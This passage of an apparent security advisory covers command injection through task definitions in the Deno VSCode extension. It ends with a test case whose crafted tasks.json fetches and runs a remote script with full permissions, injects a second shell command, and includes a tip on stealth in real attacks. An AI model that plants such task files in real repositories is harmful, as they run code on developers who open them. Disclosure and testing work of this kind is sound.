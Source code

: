           );
          task.detail = `$ ${command}`;
          return task;
        }
        ```

    2. **`client\src\tasks_sidebar.ts`**:
        - The `DenoTasksTreeDataProvider` and `DenoTaskProvider` classes are responsible for fetching and displaying Deno tasks within the VSCode UI.
        - `DenoTaskProvider.provideTasks()` retrieves task definitions by sending a `"deno/taskDefinitions"` request to the language server:
        ```typescript
        const configTasks = await client.sendRequest(taskReq);
        ```
        - The language server processes configuration files (`deno.json`, `tasks.json`) and returns task definitions (`configTasks`) as a response. These definitions are then used by `DenoTaskProvider` to construct `vscode.Task` objects using `buildDenoConfigTask`.
        - Crucially, the vulnerability arises because the language server, and subsequently the extension, trusts the content of these configuration files without proper validation or sanitization. If these files are maliciously crafted, they can inject arbitrary commands into the task execution flow.

    3. **`client\src\util.ts`:**
        - The `readTaskDefinitions` function is responsible for parsing task definitions from JSON files. It utilizes `jsoncParser.parseTree` to parse JSON content but lacks any validation or sanitization of the extracted `command` or `args` values. These values are directly used to construct tasks, leading to the command injection vulnerability.

    ```typescript
    // File: client\src\tasks_sidebar.ts
    async #runSelectedTask() {
      // ...
      const taskDefinitions = readTaskDefinitions( // Reads tasks definitions from file
        window.activeTextEditor.document,
      );
      // ...
      await tasks.executeTask(buildDenoConfigTask( // Builds task with user controlled definitions
        workspaceFolder,
        await getDenoCommandName(),
        task.name,
        task.command, // User controlled command
        sourceUri,
      ));
      // ...
    }
    ```

- Security Test Case:
    1. Create a new directory, for example, `malicious-deno-repo`.
    2. Inside `malicious-deno-repo`, create a file named `tasks.json` with the following malicious task definition:

    ```json
    {
      "version": "2.0.0",
      "tasks": [
        {
          "type": "deno",
          "command": "run",
          "args": [
            "-A", // Add all permissions for more impactful testing, remove in real attack for stealth
            "https://example.com/malicious_script.ts", // Replace with a harmless script to avoid unintended consequences during testing or a real malicious script for demonstration in controlled environment.
            "`; touch malicious_file.txt`" // Command injection payload
          ],
          "problemMatcher": [
            "$deno"